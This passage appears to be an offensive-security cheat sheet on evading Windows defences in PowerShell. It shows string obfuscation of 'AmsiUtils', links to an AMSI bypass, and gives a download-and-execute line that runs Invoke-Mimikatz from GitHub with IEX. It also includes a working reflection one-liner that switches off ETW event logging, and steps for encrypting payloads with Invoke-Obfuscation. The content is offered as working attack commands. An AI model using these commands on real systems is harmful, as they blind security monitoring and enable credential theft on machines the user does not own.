 ##### Concatenation

```powershell
PS:\> 'AmsiUtils'

PS:\> 'Amsi' + 'Utils'
AmsiUtils
```

##### String Reversal

```powershell
# Encoding Payload
PS:\> (([regex]::Matches("testing payload",'.','RightToLeft') | foreach {$_.value}) -join '')
daolyap gnitset

# Decoding Payload
PS:\> (([regex]::Matches("daolyap gnitset",'.','RightToLeft') | foreach {$_.value}) -join '')
testing payload
```

##### ASMI bypass

```powershell
# Get from here:
# https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

# Check if ASMI is bypassed
PS:\> IEX(iwr -uri https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1 -UseBasicParsing)
```

### Patching Event Tracing For Windows

##### Use `Invoke-Obfuscation`

```powershell
Invoke-Obfuscation> SET SCRIPT BLOCK [Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)

Invoke-Obfuscation> ENCODING
# use AES encryption
Invoke-Obfuscation> ENCODING\5

# Copy encrypted payload
# Disable ASMI using final payload 2
# Paste encrypted payload
```

### Offensive.NET

##### `ConfuserEx` - AV Bypass Ofbuscation
